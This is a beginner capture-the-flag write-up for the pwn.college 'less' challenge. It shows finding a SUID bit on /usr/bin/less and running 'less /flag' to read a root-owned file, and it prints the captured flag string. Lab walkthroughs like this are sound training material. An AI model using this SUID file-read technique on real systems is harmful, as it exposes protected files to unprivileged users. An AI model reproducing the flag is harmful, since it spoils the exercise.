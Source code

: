 # Challenge Name: less
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/less`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/less
```

output:
```
-rwsr-xr-x 1 root root 180064 Apr 28  2024 /usr/bin/less
```

-The `s` in `-rws` indicates it's a SUID binary.
-`less` runs with **root privileges**.

## 🚀 Exploitation

The `less` command is a terminal pager program used to view the content of files or command output, one screen at a time — but with more power than more

```bash
less /flag
```
Output:
```

pwn.college{YHYS1yu1yPZbe71ggvwBGhSde7G.dVDNxwSM0IzMyEzW}
/flag (END)
```


